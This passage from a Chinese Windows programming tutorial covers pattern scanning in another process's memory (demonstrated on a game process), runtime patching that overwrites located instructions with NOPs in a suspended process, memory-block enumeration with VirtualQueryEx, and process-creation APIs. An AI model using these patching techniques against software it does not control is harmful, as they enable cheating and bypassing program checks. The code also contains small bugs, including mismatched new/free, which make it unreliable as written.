            // 分别将两个十六进制字符转换成十进制数
            for (int i = 0; i < 2; i++)
            {
                // 如果是数字
                if (num[i] >= '0' && num[i] <= '9')
                {
                    a[i] = num[i] - '0';
                }
                // 如果是小写字母
                else if (num[i] >= 'a' && num[i] <= 'z')
                {
                    a[i] = num[i] - 87;
                }
                // 如果是大写字母
                else if (num[i] >= 'A' && num[i] <= 'Z')
                {
                    a[i] = num[i] - 55;
                }
            }

            // 计算两个十六进制数转换后的十进制数，并将其存储到 BytesetSequence 数组中
            sum = a[0] * 16 + a[1];
            BytesetSequence[len++] = sum;
        }
        else
        {
            BytesetSequence[len++] = 256;
        }
    }
    return SignatureCodeLength;
}
```

#### 6.2.2 搜索内存区域特征

SearchMemoryBlock函数，该函数用于在指定进程的某一块内存中搜索给定的字节码特征码，查找成功则将匹配地址存入结果数组中。其中，参数`hProcess`为指向要搜索内存块所在进程的句柄，`SignatureCode`为给定特征码的数组指针，`SignatureCodeLength`为特征码长度，`StartAddress`为搜索的起始地址，`size`为搜索内存的大小，`ResultArray`为存储搜索结果的数组引用。

通过调用`ReadProcessMemory`函数读取进程内存中指定地址和大小的数据，将读取的数据存入变量`MemoryData`中，然后对读取的数据进行匹配，查找特征码。若匹配成功，则将特征码匹配的起始地址存入结果数组中。在匹配时，采用了`KMP`算法。如果找到与特征码中的字节码不匹配的字节，就根据`Next`数组记录的回溯位置，重新从失配的位置开始匹配，以降低匹配的时间复杂度，提高搜索效率。在代码中，若特征码中存在问号，则匹配位置从问号处开始重新匹配，如果没有则继续按照Next数组回溯进行匹配。
```c
// 获取GetNextArray数组
void GetNextArray(short* next, WORD* SignatureCode, WORD SignatureCodeLength)
{
    // 特征码字节集的每个字节的范围在0-255（0-FF）之间
    // 256用来表示问号，到260是为了防止越界
    for (int i = 0; i < 260; i++)
    {
        next[i] = -1;
    }
    for (int i = 0; i < SignatureCodeLength; i++)
    {
        next[SignatureCode[i]] = i;
    }
}

// 搜索一块内存区域中的特征
void SearchMemoryBlock(HANDLE hProcess, WORD* SignatureCode, WORD SignatureCodeLength, unsigned __int64 StartAddress, unsigned long size, vector<unsigned __int64>& ResultArray)
{
    // 读取指定进程的内存数据到MemoryData缓冲区中
    if (!ReadProcessMemory(hProcess, (LPCVOID)StartAddress, MemoryData, size, NULL))
    {
        return;
    }

    // 循环遍历内存数据缓冲区
    for (int i = 0, j, k; i < size;)
    {
        j = i; k = 0;

        // 逐个比对内存数据缓冲区中的字节和特征码中的字节
        for (; k < SignatureCodeLength && j < size && (SignatureCode[k] == MemoryData[j] || SignatureCode[k] == 256); k++, j++);

        // 如果特征码完全匹配到内存数据缓冲区中的一段数据
        if (k == SignatureCodeLength)
        {
            // 将该段数据的起始地址保存到结果数组中
            ResultArray.push_back(StartAddress + i);
        }

        // 如果已经处理到缓冲区的末尾
        if ((i + SignatureCodeLength) >= size)
        {
            return;
        }

        int num = Next[MemoryData[i + SignatureCodeLength]];

        // 如果特征码中有问号，从问号处开始匹配
        if (num == -1)
        {
            // 如果特征码有问号，就从问号处开始匹配，如果没有就 i += -1
            i += (SignatureCodeLength - Next[256]);
        }
        else
        {
            // 否则从匹配失败的位置开始
            i += (SignatureCodeLength - num);
        }
    }
}
```

#### 6.2.3 搜索整块内存区域

SearchMemory函数，该函数用于在指定进程的内存空间中搜索给定特征码的内存块，并把搜索到的内存地址存入结果数组中。函数为一层循环枚举给定的内存块，内部则调用`SearchMemoryBlock`函数进行内存块搜索。其中，参数`hProcess`为指向要搜索内存块所在进程的句柄，`SignatureCode`为给定特征码的字符串指针，`StartAddress`为搜索的起始地址，`EndAddress`为搜索的结束地址，`InitSize`为搜索结果数组初始空间大小，`ResultArray`为存储搜索结果的数组引用。

该函数首先通过调用`VirtualQueryEx`函数获取可读可写和可读可写可执行的内存块信息，并遍历每个内存块，对内存块进行搜索。之所以不直接搜索整个内存区域，是因为那样可以减少非必要的搜索，提高效率。

内存块的搜索通过调用`SearchMemoryBlock`函数实现。搜索采用了`KMP`算法，先通过`GetNextArray`函数和`GetSignatureCodeArray`函数将特征码转换为对应的变量，再对每个内存块逐个匹配，在匹配过程中若找到与特征码中的字节码不匹配的字节，就根据Next数组记录的回溯位置从失配的位置开始重新匹配，以降低匹配的时间复杂度。在内存块搜索过程中，若匹配成功，则将特征码匹配的起始地址存入结果数组中，最终函数返回结果数组大小。
```c
// 实现搜索整个程序
int SearchMemory(HANDLE hProcess, char* SignatureCode, unsigned __int64 StartAddress, unsigned __int64 EndAddress, int InitSize, vector<unsigned __int64>& ResultArray)
{
    int i = 0;
    unsigned long BlockSize;
    MEMORY_BASIC_INFORMATION mbi;

    WORD SignatureCodeLength = strlen(SignatureCode) / 3 + 1;
    WORD* SignatureCodeArray = new WORD[SignatureCodeLength];

    // 实现特征码字符串与数组转换
    GetSignatureCodeArray(SignatureCode, SignatureCodeArray);
    GetNextArray(Next, SignatureCodeArray, SignatureCodeLength);

    // 初始化结果数组
    ResultArray.clear();
    ResultArray.reserve(InitSize);

    // 查询内存属性并循环
    while (VirtualQueryEx(hProcess, (LPCVOID)StartAddress, &mbi, sizeof(mbi)) != 0)
    {
        // 判断并获取具有PAGE_READWRITE读写，或者PAGE_EXECUTE_READWRITE读写执行权限的内存
        if (mbi.Protect == PAGE_READWRITE || mbi.Protect == PAGE_EXECUTE_READWRITE)
        {
            i = 0;

            // 得到当前块长度
            BlockSize = mbi.RegionSize;
            
            // 搜索这块内存
            while (BlockSize >= BLOCKMAXSIZE)
            {
                // 调用内存块搜索功能依次搜索内存
                SearchMemoryBlock(hProcess, SignatureCodeArray, SignatureCodeLength, StartAddress + (BLOCKMAXSIZE * i), BLOCKMAXSIZE, ResultArray);
                BlockSize -= BLOCKMAXSIZE;
                i++;
            }
            SearchMemoryBlock(hProcess, SignatureCodeArray, SignatureCodeLength, StartAddress + (BLOCKMAXSIZE * i), BlockSize, ResultArray);
        }

        // 开始地址增加下一块长度继续搜索
        StartAddress += mbi.RegionSize;
        if (EndAddress != 0 && StartAddress > EndAddress)
        {
            return ResultArray.size();
        }
    }

    // 释放特征码数组并返回搜索计数器
    free(SignatureCodeArray);
    return ResultArray.size();
}
```

将上述代码理解后读者可以自行使用

```c
int main(int argc, char *argv[])
{
    // 通过进程名获取进程PID号
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 获取进程PID = %d \n", Pid);

    // 初始化MemoryData大小
    MemoryData = new BYTE[BLOCKMAXSIZE];

    // 存储搜索返回值
    vector<unsigned __int64> ResultArray;

    // 通过进程ID获取进程句柄
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);

    // 开始搜索
    // 搜索特征码 FF 25 ?? 从0x0000000到0xFFFFFFF 初始长度为3 返回值放入ResultArray
    SearchMemory(hProcess, "FF 25 ??", 0x0000000, 0xFFFFFFF, 3, ResultArray);

    // 输出结果
    for (vector<unsigned __int64>::iterator it = ResultArray.begin(); it != ResultArray.end(); it++)
    {
        printf("0x%08X \n", *it);
    }

    system("pause");
    return 0;
}
```

编译并运行上述程序片段，则会枚举`hProcess`进程内特征码时`FF 25 ??`的片段，枚举位置为`0x0000000-0xFFFFFFF`枚举长度为3个特征，最终将枚举结果输出到`ResultArray`数组内，输出效果图如下所示；



#### 6.2.4 应用动态内存补丁

动态内存补丁可以理解为在程序运行时动态地修改程序的内存，在某些时候某些应用程序会带壳运行，而此类程序的机器码只有在内存中被展开时才可以被修改，而想要修改此类应用程序动态补丁将是一个不错的选择，动态补丁的原理是通过`CreateProcess`函数传递`CREATE_SUSPENDED`将程序运行起来并暂停，此时程序会在内存中被解码，当程序被解码后我们则可以通过内存读写实现对特定区域的动态补丁。

当读者需要手动拉起一个进程时则可以使用`OpenExeFile`函数实现，该函数调用后会拉起一个进程，并默认暂停在程序入口处，返回一个`PROCESS_INFORMATION`结构信息；
```c
// 打开进程并暂停运行
PROCESS_INFORMATION OpenExeFile(char *szFileName)
{
    STARTUPINFO si = { 0 };
    PROCESS_INFORMATION pi = { 0 };

    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_SHOW;
    si.dwFlags = STARTF_USESHOWWINDOW;

    // 创建子线程并默认暂停
    BOOL bRet = CreateProcess(szFileName, 0, 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
    if (bRet == FALSE)
    {
        exit(0);
    }
    ResumeThread(pi.hThread);
    return pi;
}
```

其中`CreateProcess`函数的一般格式：
```c
BOOL WINAPI CreateProcess(
  LPCWSTR lpApplicationName,
  LPWSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCWSTR lpCurrentDirectory,
  LPSTARTUPINFOW lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

下面是函数的参数说明：

 - lpApplicationName：指向一个空字符结束的字符串，指定将要执行的可执行文件的名称。如果`lpApplicationName`为`NULL`，那么应该将可执行文件的名称包含在`lpCommandLine`所指向的字符串中。
 - lpCommandLine：指向一个空字符结束的字符串，该字符串包含了要执行的命令行和参数，用于指定要运行的可执行文件和要传递给该进程的命令行参数。
 - lpProcessAttributes：指向`PROCESS_ATTRIBUTES`结构体，用于指定新进程的安全描述符。
 - lpThreadAttributes：指向`THREAD_ATTRIBUTES`结构体，用于指定新进程的主线程的安全描述符。
 - bInheritHandles：一个布尔值，指定新进程是否继承了它的父进程的句柄。
 - dwCreationFlags：指定新进程的创建标志。一般情况下会指定为 0。
 - lpEnvironment：指向一个环境块，用于指定新进程的环境块。如果为`NULL`，则新进程将继承调用进程的环境块。
 - lpCurrentDirectory：指向一个空字符结束的字符串，该字符串指定新进程的当前工作目录。如果为`NULL`，则新进程将继承父进程的当前工作目录。
 - lpStartupInfo：指向`STARTUPINFO`结构体，该结构体指定了新进程的主窗口外观。
 - lpProcessInformation：指向`PROCESS_INFORMATION`结构体，该结构体返回了新进程的信息，例如新进程的进程标识符和主线程标识符等。

CreateProcess 函数返回一个布尔值，表示函数的调用是否成功。如果成功，则返回值为非零，否则返回值为零，并通过调用`GetLastError`函数获取错误代码。为了使得新进程与父进程独立运行，一般需要用到独立的进程空间和线程，这通常需要在创建新进程之前调用一些`Windows`系统`API`函数，如`VirtualAlloc、CreateThread`等。

接着来看封装过的三个内存读写函数，其中`ReadMemory()`用于读取进程内存数据，`WriteMemory()`用于写入内存数据，`CheckMemory()`则用于验证两个内存空间内的字节是否匹配。
```c
// 读取指定的内存地址
BYTE * ReadMemory(PROCESS_INFORMATION pi, DWORD dwVAddress, int Size)
{
    BYTE bCode = 0;
    BYTE *buffer = new BYTE[Size];

    for (int x = 0; x < Size; x++)
    {
        ReadProcessMemory(pi.hProcess, (LPVOID)dwVAddress, (LPVOID)&bCode, sizeof(BYTE), 0);
        buffer[x] = bCode;
        dwVAddress++;
    }
    return buffer;
}

// 写入内存特征
BOOL WriteMemory(PROCESS_INFORMATION pi, DWORD dwVAddress, unsigned char *ShellCode, int Size)
{
    BYTE *Buff = new BYTE[Size];

    SuspendThread(pi.hThread);
    memset(Buff, *ShellCode, Size);
    VirtualProtectEx(pi.hProcess, (LPVOID)dwVAddress, Size, 0x40, 0);
    BOOL Ret = WriteProcessMemory(pi.hProcess, (LPVOID)dwVAddress, Buff, Size, 0);
    if (Ret != 0)
    {
        ResumeThread(pi.hThread);
        return TRUE;
    }
    return FALSE;
}

// 比较内存中前几个字节是否一致
BOOL CheckMemory(PROCESS_INFORMATION pi, DWORD dwVAddress, BYTE OldCode[], int Size)
{
    BYTE *Buff = new BYTE[Size];
    ReadProcessMemory(pi.hProcess, (LPVOID)dwVAddress, Buff, Size, 0);

    if (!memcmp(Buff, OldCode, Size))
    {
        /*
        for (int x = 0; x < Size; x++)
        {
            printf("内存地址: %x --> 对比地址: %x \n", Buff[x], OldCode[x]);
        }
        */
        return TRUE;
    }
    return FALSE;
}
```

接下来我们将通过使用特征码定位技术来实现对特定内存区域的定位并实现特征替换，首先我们搜索`0x85, 0xed, 0x57, 0x74, 0x07`这段特征值，并定位到`0x0402507`内存区域，如下图所示；



当定位到内存区域后，我们首先通过`ReadMemory`读取前五个字节的内存，并调用`CheckMemory`函数用于验证此片内存区域是否时我们需要修改的，如果验证一致则通过调用`WriteMemory`函数向该内存中写出替换一段`0x90, 0x90, 0x90, 0x90, 0x90`的指令，最后通过调用`ResumeThread`恢复线程运行，并以此实现动态内存补丁；

```c
int main(int argc, char *argv[])
{
    // 动态加载进程
    PROCESS_INFORMATION pi = OpenExeFile("d://lyshark.exe");

    // 开始搜索特征码
    char ScanOpCode[5] = { 0x85, 0xed, 0x57, 0x74, 0x07 };

    // 依次传入开始地址，结束地址，特征码，以及特征码长度
    ULONG Address = ScanMemorySignatureCode(pi.dwProcessId, 0x401000, 0x47FFFF, ScanOpCode, 5);
    printf("[*] 找到内存地址 = 0x%x \n", Address);

    // 读取位于Address地址处的5条机器指令
    BYTE *recv_buffer = ReadMemory(pi, Address, 5);
    for (int x = 0; x < 5; x++)
    {
        printf("%x ", recv_buffer[x]);
    }
    printf("\n");

    // 比较Address内存中前5个字节是否一致
    BYTE cmp_code[] = { 0x85, 0xed, 0x57, 0x74, 0x07 };
    BOOL ret = CheckMemory(pi, Address, cmp_code, 5);
    if (ret == TRUE)
    {
        printf("[*] 内存一致,可以进行打补丁 \n");
    }
    else
    {
        printf("[-] 不一致 \n");
    }

    // 写入修补文件
    unsigned char set_buffer[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };
    WriteMemory(pi, Address, set_buffer, 5);

    // 运行修补后的程序
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    system("pause");
    return 0;
}
```

当调用成功后，读者可自行跳转到`0x0402507`处的内存区域，观察替换效果，当替换成功后，其内存输出效果如下图所示；



## 第七篇：进程与线程操控技术

应用层进程操控技术是指在应用程序中对系统进程进行操作和管理的技术，其中包括枚举系统所有进程、判断进程是否存在、强制终止进程、获取指定进程PID、枚举/查询进程权限、枚举/查询进程路径及特权值、以及挂起/恢复进程等操作。这些技术可以帮助加强进程的运行控制、提高应用程序的安全性和稳定性，以及更好地管理系统进程。

### 7.1 内存块枚举

在`Windows`操作系统中，每个进程的虚拟地址空间都被划分为若干内存块，每个内存块都具有一些属性，如内存大小、保护模式、类型等。这些属性可以通过`VirtualQueryEx`函数查询得到。

该函数可用于查询进程虚拟地址空间中的内存信息的函数。它的作用类似于`Windows`操作系统中的`Task Manager`中的进程选项卡，可以显示出一个进程的内存使用情况、模块列表等信息。使用`VirtualQueryEx`函数，可以枚举一个进程的所有内存块。该函数需要传入要查询的进程的句柄、基地址和一个`MEMORY_BASIC_INFORMATION`结构体指针。它会返回当前内存块的基地址、大小、状态（`free/commit/reserve`）、保护模式等信息。

在实现对内存块的枚举之前，我们先通过`ReadProcessMemory`函数实现一个内存远程内存读取功能，如下代码所示，首先，通过`OpenProcess`函数打开进程句柄，获得当前进程的操作权限。然后，调用`EnumMemory`函数，传入进程句柄以及起始地址和终止地址参数，依次读取每一页内存，通过循环打印其内存数据。

```c
#include <iostream>
#include <windows.h>

// 枚举内存实现
void EnumMemory(HANDLE Process, DWORD BeginAddr, DWORD EndAddr)
{
  // 每次读入长度
  const DWORD pageSize = 1024;

  BYTE page[pageSize];
  DWORD tmpAddr = BeginAddr;
  while (tmpAddr <= EndAddr)
  {
    ReadProcessMemory(Process, (LPCVOID)tmpAddr, &page, pageSize, 0);
    for (int x = 0; x < pageSize; x++)
    {
      if (x % 15 == 0)
      {
        printf("| 0x%08X \n", tmpAddr + x);
      }
      printf("0x%02X ", page[x]);
    }
    tmpAddr += pageSize;
  }
}

int main(int argc, char* argv[])
{
  HANDLE process;

  // 打开当前进程
  process = OpenProcess(PROCESS_ALL_ACCESS, false, GetCurrentProcessId());

  // 枚举内存 从0x401000 - 0x7FFFFFFF
  EnumMemory(process, 0x00401000, 0x7FFFFFFF);

  system("pause");
  return 0;
}
```

上述代码简单明了，易于理解，但并没有实现过滤特定内存属性的功能。如果需要对特定类型的内存进行分析，需要结合`VirtualQueryEx`函数实现内存属性的查询和过滤。



接着我们进入本章的重点，实现枚举进程内存块，要实现该功能首先读者必须要了解一个结构体`_SYSTEM_INFO`该结构体是系统信息结构，可用于存储系统硬件和系统配置信息，而我们所需要的内存块数据同样可以使用该结构进行存储。

根据具体需求，可以通过调用`GetSystemInfo`函数来获得`_SYSTEM_INFO`结构体的信息。`GetSystemInfo`函数可以返回系统的硬件信息，包括有多少个处理器，每个处理器有多少个核心，系统页大小等信息，该结构体的定义如下所示；

```c
    typedef struct _SYSTEM_INFO {
      union {
      DWORD dwOemId;                          // 兼容性保留
      struct {
        WORD wProcessorArchitecture;          // 操作系统处理器体系结构
        WORD wReserved;                       // 保留
      } DUMMYSTRUCTNAME;
      } DUMMYUNIONNAME;
      DWORD     dwPageSize;                   // 页面大小和页面保护和承诺的粒度
      LPVOID    lpMinimumApplicationAddress;  // 指向应用程序和dll可访问的最低内存地址的指针
      LPVOID    lpMaximumApplicationAddress;  // 指向应用程序和dll可访问的最高内存地址的指针
      DWORD_PTR dwActiveProcessorMask;        // 处理器掩码
      DWORD     dwNumberOfProcessors;         // 当前组中逻辑处理器的数量
      DWORD     dwProcessorType;              // 处理器类型，兼容性保留
      DWORD     dwAllocationGranularity;      // 虚拟内存的起始地址的粒度
      WORD      wProcessorLevel;              // 处理器级别
      WORD      wProcessorRevision;           // 处理器修订
    } SYSTEM_INFO, *LPSYSTEM_INFO;
```

接着就是要查询内存块的状态了，我们可通过`VirtualQueryEx`函数实现查询进程虚拟地址空间中的内存信息，其原型定义如下：

```c
SIZE_T VirtualQueryEx(
  HANDLE                    hProcess,
  LPCVOID                   lpAddress,
  PMEMORY_BASIC_INFORMATION lpBuffer,
  SIZE_T                    dwLength
);
```

参数说明：

 - hProcess：进程句柄。需要查询的进程的句柄
 - lpAddress：基地址。需要查询的内存块的基地址
 - lpBuffer：内存信息缓冲区。 PMEMORY_BASIC_INFORMATION 结构指针，用于存储查询结果。它包含了取得的内存块信息，如基地址、保护属性、状态、大小等
 - dwLength：缓冲区大小。缓冲区的大小，以字节为单位。如果缓冲区太小，则函数将返回指定的内存块信息长度存放到此处，不会写入完整的信息

该函数返回实际填充到缓冲区中的字节数。如果函数失败，则返回0。当我们需要了解特定进程的内存使用情况时，可以使用`VirtualQueryEx()`函数枚举进程内存中的所有内存块，并按需查询其中的属性值。

```c
#include <iostream>
#include <windows.h>
#include <Psapi.h>

#pragma comment(lib,"psapi.lib")

// 枚举特定进程内存块信息
VOID ScanProcessMemory(HANDLE hProc)
{
  SIZE_T stSize = 0;
  PBYTE pAddress = (PBYTE)0;
  SYSTEM_INFO sysinfo;
  MEMORY_BASIC_INFORMATION mbi = { 0 };

  //获取页的大小
  ZeroMemory(&sysinfo, sizeof(SYSTEM_INFO));
  GetSystemInfo(&sysinfo);

  // 得到的镜像基地址
  pAddress = (PBYTE)sysinfo.lpMinimumApplicationAddress;

  printf("------------------------------------------------------------------------ \n");
  printf("开始地址 \t 结束地址 \t 大小 \t 状态 \t 内存类型 \t 页面属性 \n");
  printf("------------------------------------------------------------------------ \n");
  
  // 判断只要当前地址小于最大地址就循环
  while (pAddress < (PBYTE)sysinfo.lpMaximumApplicationAddress)
  {
    // 对结构体进行初始化
    ZeroMemory(&mbi, sizeof(MEMORY_BASIC_INFORMATION));

    // 查询内存属性
    stSize = VirtualQueryEx(hProc, pAddress, &mbi, sizeof(MEMORY_BASIC_INFORMATION));

    if (stSize == 0)
    {
      pAddress += sysinfo.dwPageSize;
      continue;
    }

    // 输出查询结果
    printf("0x%08X \t 0x%08X \t %8d K \t ", mbi.BaseAddress, ((DWORD)mbi.BaseAddress + (DWORD)mbi.RegionSize), mbi.RegionSize >> 10);

    // 输出状态
    switch (mbi.State)
    {
      case MEM_FREE: printf("空闲 \t"); break;
      case MEM_RESERVE: printf("保留 \t"); break;
      case MEM_COMMIT: printf("提交 \t"); break;
      default: printf("未知 \t"); break;
    }

    // 输出类型
    switch (mbi.Type)
    {
      case MEM_PRIVATE:   printf("私有  \t"); break;
      case MEM_MAPPED:    printf("映射  \t"); break;
      case MEM_IMAGE:     printf("镜像  \t"); break;
      default: printf("未知  \t"); break;
    }

    if (mbi.Protect == 0)
    {
      printf("---");
    }
    else if (mbi.Protect & PAGE_EXECUTE)
    {
      printf("E--");
    }
    else if (mbi.Protect & PAGE_EXECUTE_READ)
    {
      printf("ER-");
    }
    else if (mbi.Protect & PAGE_EXECUTE_READWRITE)
    {
      printf("ERW");
    }
    else if (mbi.Protect & PAGE_READONLY)
    {
      printf("-R-");
    }
    else if (mbi.Protect & PAGE_READWRITE)
    {
      printf("-RW");
    }
    else if (mbi.Protect & PAGE_WRITECOPY)
    {
      printf("WCOPY");
    }
    else if (mbi.Protect & PAGE_EXECUTE_WRITECOPY)
    {
      printf("EWCOPY");
    }

    printf("\n");

    // 每次循环累加内存块的位置
    pAddress = (PBYTE)mbi.BaseAddress + mbi.RegionSize;
  }
}

int main(int argc, char* argv[])
{
  // 打开进程
  HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());

  // 开始枚举
  ScanProcessMemory(hProc);
  CloseHandle(hProc);

  system("pause");
  return 0;
}
```

运行上述代码片段则首先通过`GetCurrentProcessId()`得到自身进程的`PID`号，接着通过调用`ScanProcessMemory`函数实现对自身进程内存块的枚举功能，最终输出如下图所示的效果；



当然了虽然上述代码可以实现对内存块的枚举功能，但是在实际的开发场景中我们还是需要将枚举结果存储起来以便后期调用，此时我们可以考虑在全局定义`vector`容器，容器的属性为每一个内存块的`MEMORY_BASIC_INFORMATION`属性，当需要查询时只需要枚举这个容器并循环输出该容器内的数据即可，改进后的代码如下所示；

```C
#include <Windows.h>
#include <vector>
#include <iostream>
#include <assert.h>

using namespace std;

// 枚举指定进程所有内存块
static bool ScanProcessMemory(HANDLE hProcess, OUT vector<MEMORY_BASIC_INFORMATION>& memories)
{
  // 如果 hProcess 为空则结束运行
  assert(hProcess != nullptr);

  // 初始化容器并设置容量
  memories.clear();
  memories.reserve(200);

  // 获取 PageSize 和地址粒度
  SYSTEM_INFO sysInfo = { 0 };
  GetSystemInfo(&sysInfo);

  // 定义基本的内存结构
  const char* p = (const char*)sysInfo.lpMinimumApplicationAddress;
  MEMORY_BASIC_INFORMATION memInfo = { 0 };

  // 开始遍历内存
  while (p < sysInfo.lpMaximumApplicationAddress)
  {
    // 获取进程虚拟内存块缓冲区字节数
    size_t size = VirtualQueryEx(
      hProcess,                             // 进程句柄
      p,                                    // 要查询内存块的基地址指针
      &memInfo,                             // 接收内存块信息的 MEMORY_BASIC_INFORMATION 对象
      sizeof(MEMORY_BASIC_INFORMATION32)    // 缓冲区大小
      );

    if (size != sizeof(MEMORY_BASIC_INFORMATION32))
    {
      break;
    }

    // 将内存块信息追加到容器内
    memories.push_back(memInfo);

    // 移动指针
    p += memInfo.RegionSize;
  }

  // 容器大于0则返回
  return memories.size() > 0;
}

int main(int argc, char* argv[])
{
  // 存放进程内存块的数组
  vector<MEMORY_BASIC_INFORMATION> vec;

  // 打开自身进程
  HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());

  // 遍历该进程的内存
  if (ScanProcessMemory(handle, vec))
  {
    printf("------------------------------------------------------------------------ \n");
    printf("开始地址 \t 结束地址 \t 大小 \t 状态 \t 内存类型 \t 页面属性 \n");
    printf("------------------------------------------------------------------------ \n");
    
    // 此处循环遍历结构
    for (int i = 0; i < vec.size(); i++)
    {
      printf("0x%08X \t 0x%08X \t %8d K \t ", vec[i].BaseAddress, ((DWORD)vec[i].BaseAddress + (DWORD)vec[i].RegionSize), vec[i].RegionSize >> 10);

      switch (vec[i].State)
      {
      case MEM_FREE: printf("空闲 \t"); break;
      case MEM_RESERVE: printf("保留 \t"); break;
      case MEM_COMMIT: printf("提交 \t"); break;
      default: printf("未知 \t"); break;
      }

      switch (vec[i].Type)
      {
      case MEM_PRIVATE: printf("私有  \t"); break;
      case MEM_MAPPED: printf("映射  \t"); break;
      case MEM_IMAGE: printf("镜像  \t"); break;
      default: printf("未知  \t"); break;
      }

      if (vec[i].Protect == 0)
      {
        printf("---");
      }
      else if (vec[i].Protect & PAGE_EXECUTE)
      {
        printf("E--");
      }
      else if (vec[i].Protect & PAGE_EXECUTE_READ)
      {
        printf("ER-");
      }
      else if (vec[i].Protect & PAGE_EXECUTE_READWRITE)
      {
        printf("ERW");
      }
      else if (vec[i].Protect & PAGE_READONLY)
      {
        printf("-R-");
      }
      else if (vec[i].Protect & PAGE_READWRITE)
      {
        printf("-RW");
      }
      else if (vec[i].Protect & PAGE_WRITECOPY)
      {
        printf("WCOPY");
      }
      else if (vec[i].Protect & PAGE_EXECUTE_WRITECOPY)
      {
        printf("EWCOPY");
      }
      printf("\n");
    }
  }
  system("pause");
  return 0;
}
```
读者可编译并自行运行上述代码，观察输出效果其与第一个案例中的效果保持一致，此处仅仅只是通过容器中转了参数传递，输出效果图如下所示；



对于内存块中的范围区间同样可实现继续查询，例如在开始地址`0x5DF00000-0x5DF01000`这个内存区间内，可能灰灰划分为更多的子块，当`Basicinfo.State`内存属性中的子块属性为`MEM_COMMIT`时，我们还可以继续调用`VirtualQuery`函数对这个大内存块内的子内存块进行更加细致的解析效果，这段代码如下所示；

```c
#include <iostream>
#include <Windows.h>

int main(int argc, char* argv[])
{
  DWORD Addres = 0, Size = 0;
  MEMORY_BASIC_INFORMATION Basicinfo = {};

  // 遍历进程所有分页, 输出内容
  while (VirtualQuery((LPCVOID)Addres, &Basicinfo, sizeof(MEMORY_BASIC_INFORMATION)))
  {
    Size = Basicinfo.RegionSize;

    printf("[+] 开始地址: 0x%08X \t 结束地址: 0x%08X \t 大小: %7d K \t 类型: ",
      Basicinfo.BaseAddress, ((DWORD)Basicinfo.BaseAddress + (DWORD)Basicinfo.RegionSize), Basicinfo.RegionSize >> 10);

    switch (Basicinfo.Type)
    {
    case MEM_PRIVATE:   printf("私有  \t"); break;
    case MEM_MAPPED:    printf("映射  \t"); break;
    case MEM_IMAGE:     printf("镜像  \t"); break;
    default:      printf("未知  \t"); break;
    }

    printf(" \t 状态: ");
    switch (Basicinfo.State)
    {
    case MEM_FREE:      printf("空闲 \n"); break;
    case MEM_RESERVE:   printf("保留 \n"); break;
    case MEM_COMMIT:    printf("提交 \n"); break;
    default:      printf("未知 \n"); break;
    }

    // 如果是提交状态的内存区域，那么遍历所有块中的信息
    if (Basicinfo.State == MEM_COMMIT)
    {
      // 遍历所有基址是 Address
      LPVOID BaseBlockAddress = (LPVOID)Addres;
      DWORD BlockAddress = Addres;
      DWORD dwBlockSize = 0;

      // 遍历大内存块中的小内存块
      while (VirtualQuery((LPVOID)BlockAddress, &Basicinfo, sizeof(Basicinfo)))
      {
        if (BaseBlockAddress != Basicinfo.AllocationBase)
        {
          break;
        }
        printf("[*] ---> 块地址: 0x%08X \t ", BlockAddress);
        // 查看内存状态，映射方式
        switch (Basicinfo.Type)
        {
        case MEM_PRIVATE:   printf("私有  \t "); break;
        case MEM_MAPPED:    printf("映射  \t "); break;
        case MEM_IMAGE:     printf("镜像  \t "); break;
        default:      printf("未知  \t "); break;
        }

        if (Basicinfo.Protect == 0)
          printf("---");
        else if (Basicinfo.Protect & PAGE_EXECUTE)
          printf("E--");
        else if (Basicinfo.Protect & PAGE_EXECUTE_READ)
          printf("ER-");
        else if (Basicinfo.Protect & PAGE_EXECUTE_READWRITE)
          printf("ERW");
        else if (Basicinfo.Protect & PAGE_READONLY)
          printf("-R-");
        else if (Basicinfo.Protect & PAGE_READWRITE)
          printf("-RW");
        else if (Basicinfo.Protect & PAGE_WRITECOPY)
          printf("WCOPY");
        else if (Basicinfo.Protect & PAGE_EXECUTE_WRITECOPY)
          printf("EWCOPY");
        printf("\n");

        // 计算所有相同块大小
        dwBlockSize += Basicinfo.RegionSize;
        // 累加内存块的位置
        BlockAddress += Basicinfo.RegionSize;
      }
      // 有可能大小为空
      Size = dwBlockSize ? dwBlockSize : Basicinfo.RegionSize;
    }
    // 下一个区域内存信息
    Addres += Size;
  }

  system("pause");
  return 0;
}
```

当上述代码运行后，我们就可以获取到当前内存中有多少个内存块，以及每一个内存块的属性信息，如下图所示；



### 7.2 创建新进程

创建新的进程是`Windows`程序开发的重要部分，它可以用于实现许多功能，例如进程间通信、并行处理等。其中，常用的三种创建进程的方式分别是`WinExec()`、`ShellExecute()`和`CreateProcessA()`，这三种创建进程的方式各有特点。如果需要创建简单进程或从其他程序启动新进程，可以使用`WinExec()`或`ShellExecute()`函数。如果需要对新进程进行更精细的配置，例如控制进程参数、指定安全级别、传递特定的命令和参数等，可以使用`CreateProcessA()`函数。

首先介绍`WinExec`函数，该函数是创建进程的一种方式，它使用较为简单，但缺乏对进程参数和安全性等方面的控制。使用`WinExec()`函数，可以传递一个字符串类型的参数，该参数中指定了要启动的进程名和参数等信息。但是，由于`WinExec()`函数没有提供区分进程启动成功和失败的返回值，且无法从函数返回的进程句柄获得与进程相关的信息，因此使用较为有限。

该函数的原型为：

```c
UINT WinExec(
  LPCSTR lpCmdLine,
  UINT   uCmdShow
);
```

其参数说明如下：

 - lpCmdLine：需要执行的命令行字符串
 - uCmdShow：指定程序窗口最初显示方式，如SW_SHOW，即窗口正常大小和位置显示

